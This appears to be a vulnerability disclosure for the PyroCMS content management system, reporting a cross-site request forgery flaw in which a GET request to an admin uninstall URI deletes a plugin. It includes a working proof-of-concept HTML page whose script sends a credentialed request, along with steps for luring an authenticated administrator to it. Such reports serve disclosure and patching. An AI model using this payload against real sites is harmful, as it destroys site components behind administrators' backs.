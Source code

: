 # Description

`pyrocms/pyrocms` is vulnerable to `Cross-site Request Forgery (CSRF)` via the admin/addons/uninstall/anomaly.module.blocks URI: an arbitrary plugin will be deleted.
Due to action is performed via GET request. An attacker can leverage this vulnerability by creating a page (which has malicious request) and host this page on his server and share this page to victims through social engineering methods. Once the victims who are already authenticated to the PyroCMS, click upon the page, unintended actions will be performed on the victim's behalf and the arbitrary plugin will be deleted.


# Steps To Reproduce-:  

Create a page with below content.

```
<!DOCTYPE>
<html>
<head>
    <title></title>
    <script type="text/javascript">
    // to delete any plugin
              var url = "http://test.com/admin/addons/uninstall/anomaly.module.blocks"
        xhr = new XMLHttpRequest();
        xhr.open("GET",url);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>
</head>
<body>
<--html content here --!>
</body>
</html>
```

* Send to the victim (who is authenticated in PyroCMS as administrator) and once the victim clicks on the page, the arbitrary plugin will be deleted.
